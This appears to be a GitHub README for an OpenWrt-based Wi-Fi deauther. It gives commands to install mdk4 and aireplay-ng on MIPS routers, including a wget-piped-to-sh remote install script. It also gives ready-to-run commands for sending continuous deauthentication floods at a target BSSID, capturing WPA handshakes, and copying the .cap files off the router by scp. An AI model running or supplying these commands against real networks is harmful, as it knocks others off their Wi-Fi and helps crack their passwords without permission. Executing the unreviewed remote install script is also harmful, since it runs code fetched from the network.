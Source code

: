 # openwrt deauther based on airplay-ng 
- Functions similar on kali
- Also it can capture WPA Handshakes

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this processors is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

## Auto install 
```sh

opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh mon.sh && airodump-ng mon0
```
> ctrl + c
```sh
aireplay-ng --deauth 0 -a (Mac BSSID)
```

# Using mdk4
```sh
sh mon.sh && mdk4 mon0 d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add mon0 type monitor`

`ip link set mon0 up`

`airodump-ng mon0`

`aireplay-ng mon0 --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - *.cap - export any name with .cap file format

